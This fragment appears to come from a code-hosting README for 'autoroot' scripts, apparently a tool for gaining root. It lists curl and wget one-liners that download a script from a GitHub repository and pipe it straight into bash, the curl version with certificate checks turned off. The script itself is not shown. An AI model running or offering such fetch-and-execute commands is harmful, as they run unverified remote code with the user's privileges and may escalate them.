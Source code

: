 autoroot_unix.sh > (fixed dos2unix)

autoroot_fixed#2.sh > ytta



bash -c "$(curl -fsSL https://raw.githubusercontent.com/vlain1337/dface/main/tahi/autoroot/autoroot_unix.sh -k)"

bash -c "$(wget --no-verbose -O- https://raw.githubusercontent.com/vlain1337/dface/main/tahi/autoroot/autoroot_unix.sh)"

